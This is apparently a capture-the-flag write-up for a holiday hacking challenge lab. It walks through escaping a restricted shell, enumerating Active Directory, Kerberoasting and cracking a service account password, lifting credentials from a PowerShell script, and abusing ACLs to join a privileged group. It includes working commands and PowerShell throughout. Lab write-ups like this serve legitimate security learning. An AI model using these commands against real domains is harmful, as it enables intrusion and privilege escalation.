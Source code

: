 <h1 id="objective-8-kerberoasting-on-an-open-fire">Objective 8: Kerberoasting on an Open Fire</h1>
<p><strong>Location: Staging</strong><br>
<strong>Elf: Jingle Ringford</strong><br>
<strong>Hints provided by Eve Snowshoes after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/HoHo...No.md">HoHo … No</a></strong></p>
<p>The objective to obtain a secret research document.<br>
In order to get an account in the ELFU AD domain, a registration on <a href="https://register.elfu.org">https://register.elfu.org</a> is required.<br>
After that an individual username and password is provided which can be used to logon to <a href="http://grades.elfu.org">grades.elfu.org</a> using SSH on port 2222.</p>
<h3 id="escaping-application">Escaping Application</h3>
<p>After the SSH login an application is automatically started.<br>
It is possible to escape this application by sending an EOF (CTRL-D).</p>
<h3 id="escaping-python-shell">Escaping Python Shell</h3>
<p>After this a Python shell is displayed.<br>
In order to escape this <code>os.system.("bash")</code> has to be submitted in order to get to a normal Unix shell.</p>
<h3 id="reconnaissance">Reconnaissance</h3>
<p>An nmap scan of the network 10.128.0.0/22 two hosts providing Windows services: 10.128.1.53 (domain controller) and 10.128.3.30 (samba file server) with the shares <code>elfu_svc_shr</code> and <code>research_dep</code>.</p>
<h3 id="pulling-data-from-ad">Pulling data from AD</h3>
<p>Next the tool <code>ldapdomaindump</code> can be used in order to get an idea of the user&lt;-&gt;group&lt;-&gt;permission structure:</p>
<pre><code>ldapdomaindump 10.128.1.53 -u 'elfu\{userid}' -p '{password}'
</code></pre>
<p>This can be done manually or using Bloodhound.<br>
Bloodhound also reveals that the user <code>elfu_svc</code> is Kerberoastable.</p>
<p>The password hash for this Kerberoastable user can be obtained by running</p>
<pre><code>GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 'elfu.local/{userid}:{passworð}' -request
</code></pre>
<h3 id="cracking-the-password">Cracking the Password</h3>
<p>We follow the hints and prepare the password cracking as follows:<br>
We prepare a password list using CeWL, keeping in mind that explicitly also digits are valid as per the provided hint:</p>
<pre><code>./cewl.rb https://register.elfu.org/register --with-numbers -w wordlist
</code></pre>
<p>In addition, also following the hint, the OneRuleToRuleThemAll rule for Hashcat is downloaded:</p>
<pre><code>curl -OJ https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
</code></pre>
<p>Equipped with these tool, we can let Hashcat crack the password:</p>
<pre><code>hashcat -m 13100 -a0 spn.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist
</code></pre>
<p>Hashcat find the password for <code>elfu_svc</code> to be <code>Snow2021!</code>.</p>
<h3 id="access-to-elfu_svc_shr">Access to elfu_svc_shr</h3>
<p>With this information we can get access to the elfu_svc_shr file share in 10.128.3.30:</p>
<pre><code>smbclient -U elfu_svc '\\10.128.3.30\elfu_svc_shr'
</code></pre>
<p>On this share are several Powershell scripts. One of them, <code>GetProcessInfo.ps1</code> holds credentials for the <code>user remote_elf</code>:</p>
<pre><code>$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
</code></pre>
<h3 id="getting-into-group-research-department">Getting into group Research Department</h3>
<p>With the <code>remote_elf</code> credential snippet from the script, we can grant our windows domain user the <code>GenericAll</code> permissions for the group Research Department:</p>
<pre><code>Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "{userid}"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
} -Credential $aCred -Authentication Negotiate
</code></pre>
<p>and add then our user to this group:</p>
<pre><code>Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock {
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "ptsuxvdegy"
$password = "Scumpfccr#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://&lt;SID=$hexSID&gt;")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()

} -Credential $aCred -Authentication Negotiate
</code></pre>
<h3 id="access-to-research_dep-share">Access to research_dep share</h3>
<p>After a few minutes, our new group membership gets replicated to the samba file server, so that we now have access to the secret document:</p>
<pre><code>smbclient '\\10.128.3.30\research_dep'
smb: \&gt; dir
. D 0 Thu Dec 2 16:39:42 2021
.. D 0 Mon Dec 20 08:01:35 2021
SantaSecretToAWonderfulHolidaySeason.pdf N 173932 Thu Dec 2 16:38:26 2021
</code></pre>
<p>The PDF document lists <strong>Kindness</strong> as first secret ingredient for a wonderful holiday season.</p>
<p><strong>Achievement: Kerberoasting on an Open Fire</strong></p>

